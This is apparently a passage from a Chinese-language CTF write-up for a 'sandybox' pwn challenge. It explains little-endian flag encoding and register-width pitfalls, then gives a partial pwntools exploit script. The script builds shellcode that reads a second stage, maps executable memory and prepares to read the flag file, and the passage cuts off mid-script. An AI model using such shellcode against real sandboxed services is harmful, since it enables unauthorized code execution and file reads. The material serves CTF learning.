 ```

mov    rsi,r12
mov    rdx,0x100
mov    edi,0x1
mov    eax,0x1
syscall

mov    eax,0x3c
syscall
```

需要注意的就是flag是小端序的，所以mov的顺序就应该是0x67616c66，然后还有一个点就是我最开始mmap的那端汇编代码不是那样写的，我试了一下第一条汇编语句使用某一些语句的时候就会导致shellcode执行失败，经过我测试发现，如果最开始mmap是对eax或者edx之类达到进行赋值的话会导致rax的高32位的值不变，从而就导致系统调用号不是我们想要的系统调用号的值，所以说我们最好就是使用rsi，rdx这一类的寄存器，而不使用esi，edx这一类的寄存器**（注：这里我也知识猜测并不十分确定是什么原因造成的）**

**完整exp如下：**

```
from pwn import *
from struct import pack
from sys import argv
from os import system

#context.log_level="debug"
context.arch = 'amd64'

if sys.argv[1]=="debug":
    sh = process("./sandybox")
elif sys.argv[1]=="remote":
    sh = remote("node3.buuoj.cn",)

elf = ELF("./sandybox")

ru = lambda x:sh.recvuntil(x)
rv = lambda x:sh.recv(x)
ra = lambda x:sh.recvall(x)
sl = lambda x:sh.sendline(x)
sd = lambda x:sh.send(x) 
sla = lambda x,y:sh.sendlineafter(x,y)
lg = lambda x:log.success(x)

def dbg():
    gdb.attach(sh)



shellcode = asm('''
mov edx,0x1000
sub eax,0x1
syscall
''', arch='amd64')

shellcode += asm('''
mov    rax,0x9
xor    rdi,rdi
mov    rsi,0x1000
mov    rdx,0x7
mov    r10,0x32
xor    r8,r8
xor    r9,r9
syscall

mov    r12d,eax
mov    rdx,0x67616c66
```